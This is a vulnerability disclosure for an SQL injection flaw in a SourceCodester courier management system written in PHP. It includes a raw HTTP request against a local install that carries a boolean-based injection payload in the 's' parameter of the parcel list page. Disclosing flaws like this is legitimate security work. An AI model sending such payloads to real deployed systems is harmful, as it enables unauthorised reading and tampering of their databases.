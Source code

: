 **BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

[Best courier management system project in php | SourceCodester](https://www.sourcecodester.com/php/16848/best-courier-management-system-project-php.html)

**Vulnerability File:**

index.php

**Description:**

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.

```
GET http://127.0.0.1/gaatitrack/?page=parcel_list&s=-1 or 3*2*1=6 and 1=1 --+ HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

![image-20231015135419799](Courier Management System_SQL injection.assets/image-20231015135419799.png)

![image-20231015135207862](Courier Management System_SQL injection.assets/image-20231015135207862.png)

![image-20231015135659359](Courier Management System_SQL injection.assets/image-20231015135659359.png)

















